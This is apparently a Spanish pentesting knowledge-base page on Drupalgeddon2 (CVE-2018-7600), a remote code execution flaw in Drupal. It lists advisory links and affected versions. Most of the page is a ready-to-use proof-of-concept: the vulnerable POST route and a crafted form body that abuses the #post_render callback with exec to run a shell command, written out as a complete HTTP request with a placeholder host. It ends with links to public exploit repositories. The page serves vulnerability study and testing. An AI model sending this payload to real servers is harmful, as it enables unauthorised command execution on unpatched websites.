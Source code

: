 ```yaml
---
description: Drupal Core Remote Code Execution Vulnerability (RCE) - Drupalgeddon2
cover: >-
  https://webdevolutions.blob.core.windows.net/cms/assets/Devolutions_is_CVE_Numbering_Authority_CNA_73ca6aa5df.png
coverY: -9
---
```


# ⚠️ RCE - CVE-2018-7600

{% hint style="info" %}
Enlaces sobre la vulnerabilidad:

1. [https://nvd.nist.gov/vuln/detail/cve-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600)
2. [https://www.ccn-cert.cni.es/en/gestion-de-incidentes/lucia/67-avisos-ccn-cert/6105-ccn-cert-av-13-18-publicada-la-prueba-de-concepto-poc-que-permite-explotar-la-vulnerabilidad-cve-2018-7600-de-drupal.html](https://www.ccn-cert.cni.es/en/gestion-de-incidentes/lucia/67-avisos-ccn-cert/6105-ccn-cert-av-13-18-publicada-la-prueba-de-concepto-poc-que-permite-explotar-la-vulnerabilidad-cve-2018-7600-de-drupal.html)
3. [https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2018-7600](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2018-7600)
{% endhint %}

Esta vulnerabilidad consiste en una Ejecución Remota de Comandos, afecta a las versiones anteriores a la 7.58, 8.x anteriores a la 8.3.9, 8.4.x anteriores a la 8.4.6 y 8.5.x anteriores a la 8.5.1.

Este codigo, se consigue ejecutar mediante una petición por POST a esta ruta:

```
/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax
```

Añadiendo en ella esta solicitud, en la que al final se ejecuta el comando "id" en la maquina:

{% code overflow="wrap" %}
```
form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
{% endcode %}

{% code title="PoC - CVE-2018-7600" %}
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: replace_host
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
{% endcode %}

{% hint style="danger" %}
Existen Pruebas de Concepto (Proof of Concept - PoC) disponibles:

1. [https://www.exploit-db.com/search?cve=2018-7600](https://www.exploit-db.com/search?cve=2018-7600)
2. [https://github.com/zhzyker/CVE-2018-7600-Drupal-POC-EXP/tree/master](https://github.com/zhzyker/CVE-2018-7600-Drupal-POC-EXP/tree/master)
3. [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600)
{% endhint %}

